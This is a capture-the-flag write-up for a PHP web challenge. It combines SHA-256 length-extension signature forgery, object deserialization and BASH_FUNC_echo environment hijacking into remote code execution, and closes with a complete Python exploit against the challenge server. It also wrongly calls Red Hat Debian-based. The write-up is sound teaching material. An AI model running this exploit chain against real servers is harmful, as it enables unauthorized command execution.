

# Finals: Web - Hello_GreyCat_Alpha (856)

## Challenge

```php
<?php
    include 'secret.php';

    class Greeting {
        private $info = array("name" => "GreyCat");

        public function __wakeup() {
            foreach ($this->info as $key => $value) {
                putenv("{$key}={$value}");
            }
        }

        public function sayHi() {
            system('echo Hello, $name');
        }

    }

    function sign($str) {
        global $secret;
        return hash('sha256', $secret . $str);
    }

    function unserialize_safe($str) {
        return unserialize($str, ['allowed_classes' => ['Greeting']]);
    }

    if(isset($_COOKIE['info']) && isset($_COOKIE['signature'])){
        $serialized_info = $_COOKIE['info'];
        $signature = $_COOKIE['signature'];
        if (hash_equals(sign($serialized_info), $signature) === FALSE) {
            unset($_COOKIE['info']);
            unset($_COOKIE['signature']);
        } else {
            $serialized_info = explode('|', $serialized_info);
            $infos = array_map('unserialize_safe', $serialized_info);
            foreach ($infos as $info) {
                if ($info instanceof Greeting) {
                    $info->sayHi();
                }
            }
        }
    }

    if(!isset($_COOKIE['info']) || !isset($_COOKIE['signature'])) {
        $greeting = [new Greeting];
        $serialized_info = implode(' ', array_map('serialize', $greeting));
        setcookie('info', $serialized_info);
        setcookie('signature', sign($serialized_info));
        header("Location: ".$_SERVER["REQUEST_URI"]);
    }
?>
```

TLDR:

- Hash Extending to forge signature
- Object Deserialization to put custom variables in the `info` array
- Hijack the `echo` function by inserting `BASH_FUNC_echo()` environment variable

We are given a serialized version of the `Greeting` class, as well as its `SHA256` signature, which is salted with an unknown secret key. These variables are added to the response cookies if they have not been set previously.

```php
function sign($str) {
    global $secret;
    return hash('sha256', $secret . $str);
}
$greeting = [new Greeting];
$serialized_info = implode(' ', array_map('serialize', $greeting));
setcookie('info', $serialized_info);
setcookie('signature', sign($serialized_info));
```

We can also set our own custom serialized `Greeting` class in the relevant cookies which will be unserialized, but only if the signature is correct.

```php
if(isset($_COOKIE['info']) && isset($_COOKIE['signature'])){
    $serialized_info = $_COOKIE['info'];
    $signature = $_COOKIE['signature'];
    if (hash_equals(sign($serialized_info), $signature) === FALSE) {
        unset($_COOKIE['info']);
        unset($_COOKIE['signature']);
    } else {
        $serialized_info = explode('|', $serialized_info);
        $infos = array_map('unserialize_safe', $serialized_info);
        foreach ($infos as $info) {
            if ($info instanceof Greeting) {
                $info->sayHi();
            }
        }
    }
}
```

The objective is to be able to set our own `$info` array variables because these will be eventually set as environment variables, and an `echo` command will be executed.

```php
class Greeting {
    private $info = array("name" => "GreyCat");

    public function __wakeup() {
        foreach ($this->info as $key => $value) {
            putenv("{$key}={$value}");
        }
    }

    public function sayHi() {
        system('echo Hello, $name');
    }

}
```

We can start to think of what environment variables we can set that will help us gain RCE. Looking at the environment, we can see it is running (Red Hat) Open SSL/1.0.2k-fips, which is a Debian based system.


As such, we can start to think of `BASH_FUNC` extended variables in environment. Basically, we can hijack any bash command by just prefixing it appropriately, for example, the echo command can be hijacked with `BASH_FUNC_echo()=() { id; }`.

We initialize an anonymnous function which will overwrite the `echo` command in this Bash context, which is our step into RCE. So it's clear that we need to set

```php
private $info = array("name" => "GreyCat", "BASH_FUNC_echo()" => "() { id; }";
```

The dunder method `__wakeup` will be called when an object of the class is initialized, overwriting the `echo` function and giving RCE.

First we need to make sure we have the serialized form, so we can pass it as a cookie to make the site deserialize it.

Also note that we can't just create any class we want because of this, so we have to make sure it is of the `Greeting` class.

```php
function unserialize_safe($str) {
    return unserialize($str, ['allowed_classes' => ['Greeting']]);
}
```

> Note: contrary to its name, this function is not safe.

So first we construct our new class, and get its serialized form

```php
class Greeting {
    private $info = array("name" => "GreyCat", "BASH_FUNC_echo()" => "() { id; }";

    public function __wakeup() {
        foreach ($this->info as $key => $value) {
            putenv("{$key}={$value}");
        }
    }

    public function sayHi() {
        system('echo Hello, $name');
    }

}

$greeting = [new Greeting];
$serialized_info = implode(' ', array_map('serialize',$greeting));
echo $serialized_info;
```

Now we need to append a pipe operator, `|`, to make sure its exploded properly (I think php naming, i.e. implode, explode is extremely amusing)

```php
$serialized_info = explode('|', $serialized_info);
$infos = array_map('unserialize_safe', $serialized_info);
foreach ($infos as $info) {
    if ($info instanceof Greeting) {
        $info->sayHi();
    }
}
```

So our full payload is

```
O:8:"Greeting":1:{s:14:"\x00Greeting\x00info";a:1:{s:4:"name";s:7:"GreyCat";}}|O:8:"Greeting":1:{s:14:"\x00Greeting\x00info";a:3:{s:4:"name";s:7:"GreyCat";s:16:"BASH_FUNC_echo%%";s:10:"() { id; }";s:16:"BASH_FUNC_echo()";s:10:"() { id; }";}}
```

> Note: The null characters, \x00, are important and can be checked by using BurpSuite

Now for the final part, which is to figure out an appropriate signature for this. We can just use `hashpumpy` (reference link below) to give us a forged signature. We don't know the length of the key, so an easy way is to keep brute forcing, until the cookie returned was not the signature of the original message.

```python
import hashpumpy
import requests
import urllib.parse

info = b"""O:8:"Greeting":1:{s:14:"\x00Greeting\x00info";a:1:{s:4:"name";s:7:"GreyCat";}}"""
signature = "ac404ceb2667d969d171a2f41dea1c110fd8020ad088237fe53ab293631f93ee"

data_to_add = """|O:8:"Greeting":1:{s:14:"\x00Greeting\x00info";a:3:{s:4:"name";s:7:"GreyCat";s:16:"BASH_FUNC_echo%%";s:10:"() { id; }";s:16:"BASH_FUNC_echo()";s:10:"() { id; }";}}"""
url = "http://34.142.161.21:12321/hello.php"

def figureOutLength():
    for i in range(1,512):
        sig, payload = hashpumpy.hashpump(signature, info, data_to_add, i)
        payload = urllib.parse.quote_plus(payload)
        cookies = {
            "info": payload,
            "signature": sig
        }
        r = requests.get(url, cookies=cookies, allow_redirects=False)

        if(r.cookies['signature'] == signature):
            print('bad')
        else:
            # found our length here
            print('good', i)
            print(r.text)
            break
```

After sending the request of and fiddling around with commands, we notice that in the `/` directory, there is a binary called `/readflag`, very similar to the `Shero` qualifying challenge. We just call the binary and get our flag!

The full exploit is as follows

## Solution

```python
import hashpumpy
import requests
import urllib.parse

info = b"""O:8:"Greeting":1:{s:14:"\x00Greeting\x00info";a:1:{s:4:"name";s:7:"GreyCat";}}"""
signature = "ac404ceb2667d969d171a2f41dea1c110fd8020ad088237fe53ab293631f93ee"

data_to_add = """|O:8:"Greeting":1:{s:14:"\x00Greeting\x00info";a:3:{s:4:"name";s:7:"GreyCat";s:16:"BASH_FUNC_echo%%";s:10:"() { id; }";s:16:"BASH_FUNC_echo()";s:10:"() { id; }";}}"""
url = "http://34.142.161.21:12321/hello.php"


def figureOutLength():
    for i in range(1,512):
        sig, payload = hashpumpy.hashpump(signature, info, data_to_add, i)
        payload = urllib.parse.quote_plus(payload)
        cookies = {
            "info": payload,
            "signature": sig
        }
        r = requests.get(url, cookies=cookies, allow_redirects=False)

        if(r.cookies['signature'] == signature):
            print('bad')
        else:
            print('good', i)
            print(r.text)
            break

# rce = 'ls -la'
length = 25
data_to_add = """|O:8:"Greeting":1:{s:14:"\x00Greeting\x00info";a:3:{s:4:"name";s:7:"GreyCat";s:16:"BASH_FUNC_echo%%";s:10:"() { id; }";s:16:"BASH_FUNC_echo()";s:17:"() { /readflag; }";}}"""
sig, payload = hashpumpy.hashpump(signature, info, data_to_add, 25)
payload = urllib.parse.quote_plus(payload)
cookies = {
    "info": payload,
    "signature": sig
}
r = requests.get(url, cookies=cookies, allow_redirects=False)
html = r.text.split('\n\n<html>')[0]

print()
print(r.text)
```

## Flag

```
grey{1_c4n7_b3l13v3_3nv_v4r14bl3_15_7h15_d4n63r0u5_f7b22fd61f6f7196}
```

## References

- https://github.com/bwall/HashPump
- https://tttang.com/archive/1450/
